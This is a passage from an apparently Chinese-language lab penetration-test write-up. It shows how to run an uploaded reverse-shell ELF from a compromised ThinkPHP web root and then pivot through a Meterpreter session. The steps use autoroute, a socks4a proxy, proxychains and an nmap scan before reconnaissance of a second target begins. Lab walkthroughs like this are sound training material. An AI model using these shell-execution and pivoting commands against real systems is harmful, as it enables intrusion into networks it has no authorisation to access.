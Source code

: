 (www:/www/wwwroot/ThinkPHP/public) $ chmod 777 shell.elf<br>
(www:/www/wwwroot/ThinkPHP/public) $ ./shell.elf

[![](https://p2.ssl.qhimg.com/t016c0f847ee4b6494a.png)](https://p2.ssl.qhimg.com/t016c0f847ee4b6494a.png)

4、此时MSF获取到shell，通过meterpreter添加第二层的路由

run autoroute -s 192.168.22.0/24<br>
run autoroute -p

这一步也可以使用run post/multi/manage/autoroute自动添加路由

[![](https://p2.ssl.qhimg.com/t0109362f1c35dfd464.png)](https://p2.ssl.qhimg.com/t0109362f1c35dfd464.png)

5、在MSF中添加代理，以便让攻击机访问靶机2，经过多次测试，发现MSF使用socks5代理总是失败，因此这里还是采用了socks4

msf5 &gt; use auxiliary/server/socks4a<br>
msf5 auxiliary(server/socks4a) &gt; set srvport 2222<br>
msf5 auxiliary(server/socks4a) &gt; options<br>
msf5 auxiliary(server/socks4a) &gt; run

[![](https://p3.ssl.qhimg.com/t0112aa0b620e92b559.png)](https://p3.ssl.qhimg.com/t0112aa0b620e92b559.png)

6、修改proxychains-ng的配置文件，这里也可以使用proxychains进行代理，不过前者是后者的升级版，因此这里使用proxychains-ng进行代理

root@kali:~# vim /etc/proxychains.conf<br>
加入以下内容：<br>
socks4     192.168.1.113     2222

7、尝试扫描靶机2，该步骤如果一直提示超时，可以把MSF退出再重新配置

root@kali:~# proxychains4 nmap -Pn -sT 192.168.22.22<br>
-Pn：扫描主机检测其是否受到数据包过滤软件或防火墙的保护。<br>
-sT：扫描TCP数据包已建立的连接connect

[![](https://p5.ssl.qhimg.com/t010fdafcb53cdbe8b2.png)](https://p5.ssl.qhimg.com/t010fdafcb53cdbe8b2.png)



## 0x03 Target2

### <a name="header-n43"></a>a、获取shell

1、上一步发现存在80端口，因此我们设置好浏览器代理后，打开看看

[![](https://p2.ssl.qhimg.com/t0139f0d222601112f3.png)](https://p2.ssl.qhimg.com/t0139f0d222601112f3.png)

[![](https://p5.ssl.qhimg.com/t0168dda723a0f5070d.png)](https://p5.ssl.qhimg.com/t0168dda723a0f5070d.png)

2、拿到站点后，经过简单的信息收集，不难找到robots.txt文件中隐藏的后台地址以及主页源码中给的提示

[![](https://p2.ssl.qhimg.com/t01e439b28f5c30a5a5.png)](https://p2.ssl.qhimg.com/t01e439b28f5c30a5a5.png)
